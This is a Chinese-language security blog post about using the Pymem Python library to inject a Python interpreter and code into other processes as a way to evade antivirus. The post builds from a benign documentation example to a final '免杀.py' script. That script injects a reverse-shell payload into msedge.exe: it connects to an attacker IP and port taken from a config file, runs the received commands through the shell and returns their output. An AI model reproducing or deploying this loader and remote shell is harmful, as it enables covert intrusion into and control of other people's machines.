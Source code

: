 #  写外挂时偶然想到的免杀思路

原创 EX  [ HB网络安全探究实验室 ](javascript:void\(0\);)

**HB网络安全探究实验室** ![]()

微信号 gh_db29c88c5c87

功能介绍 人生不为一事则长 欲成一事则短

____

___发表于_

收录于合集

#免杀 4 个

#黑客 12 个

#渗透测试 12 个

#网络安全 17 个

#脚本语言 4 个

  

源码：

H4ckBu7eer-EX/pymem_shellcodeloader: pymem加载shellcode到其他进程 (github.com)

  

* * *

各位大佬端午好！

最近在研究游戏逆向的时候，发现一个好玩的库——Pymem

> Pymem文档
>
> https://pymem.readthedocs.io/en/latest/index.html

  

* * *

多说不宜，咱开门见山。这个Pymem除了修改内存，还可以将python解释器以dll的形式注入到其他进程，进而在其他进程内执行shellcode

  

贴一段官网介绍：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230624181225.png)

来看一段来自官方文档的代码，这段代码的使用 pymem 库来注入 Python 解释器和 Python shellcode 到 notepad.exe
进程中，注释很详细。

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    # 导入pymem模块，这是一个Python内存操作库 from pymem import Pymem # 导入os模块，这是一个提供了丰富的操作系统相关功能的库 import os # 导入subprocess模块，这是一个用于产生子进程，连接到它们的输入/输出/错误管道，获取它们的返回码的库 import subprocess   
    # 使用subprocess.Popen启动记事本程序，并获取其进程对象 notepad = subprocess.Popen(['notepad.exe'])   
    # 使用Pymem模块连接到记事本程序 pm = Pymem('notepad.exe')   
    # 在记事本程序中注入Python解释器 pm.inject_python_interpreter()   
    # 获取当前目录下的pymem_injection.txt文件的绝对路径，并将路径中的反斜杠替换为双反斜杠 filepath = os.path.join(os.path.abspath('.'), 'pymem_injection.txt') filepath = filepath.replace("\\", "\\\\")   
    # 定义要注入的Python代码，这段代码会在记事本程序中执行，它会打开一个文件，写入一些内容，然后关闭文件 shellcode = """ f = open("{}", "w+") f.write("pymem_injection") f.close() """.format(filepath) # 将定义的Python代码注入到记事本程序中 pm.inject_python_shellcode(shellcode)  
     # 结束记事本程序 notepad.kill()

运行代码后会在pymem_injection.txt里写入pymem_injection。

那我们可以尝试用这种方式实现加载shellcode实现上线

  

* * *

正文：

先创建一个函数，用来指定shellcode和注入的进程

  *   *   *   *   *   * 

    
    
    def inject(shellcode,process):        prcs = subprocess.Popen([process])        pm = Pymem(process)        pm.inject_python_interpreter()        pm.inject_python_shellcode(shellcode)        prcs.kill()

然后写一段shellcode

  *   *   *   *   *   *   * 

    
    
    filepath = os.path.join(os.path.abspath('.'), 'pymem_injection.txt') filepath = filepath.replace("\\", "\\\\") sc = """ f = open("{}", "w+") f.write("pymem_injection") f.close() """.format(filepath)

看一下 **shellcode** 长什么样子（见程序输出），运行后已经将 **pymem_injection** 写入了

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230624181226.png)

好了让我们来看看免杀写出来是什么样子

* * *

* * *

免杀.py：

  *   *   *   *   *   *   * 

    
    
    from pymemloader import inject sc="""import subprocessimport socketwith open('cfg', 'r') as f:    sip = f.readline().strip()    sport = int(f.readline().strip())print(sip,sport)client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)client_socket.connect((sip, sport))while True:    recv_data = client_socket.recv(20480)    command=recv_data.decode('utf-8')    result = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)    send_data=result.stdout.decode('gbk')    client_socket.send(send_data.encode('utf-8'))""" #上面的loader可以用自己的pythonshellcodeloader #我这里用的是我的python小控https://github.com/H4ckBu7eer-EX/python_remote_CMD inject(sc,"msedge.exe")

done!

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

